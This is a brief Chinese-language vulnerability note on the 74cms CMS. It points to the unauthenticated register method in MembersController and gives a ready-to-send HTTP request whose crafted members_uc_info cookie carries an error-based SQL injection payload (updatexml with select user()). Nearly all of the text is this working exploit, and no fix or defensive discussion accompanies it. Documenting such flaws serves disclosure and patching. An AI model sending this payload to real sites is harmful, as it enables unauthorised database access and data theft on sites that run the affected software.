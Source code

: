 文件：74cms\upload\Application\Home\Controller\MembersController.class.php 方法：register( 是否需登录：不需要

![image](img/5e46cb930469cd2fd3dd3c5bd3805d9a.png)

```
url: http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:
members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

headers:
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest 
```

![image](img/3ad0c31021301a71b15eecab140a8512.png)
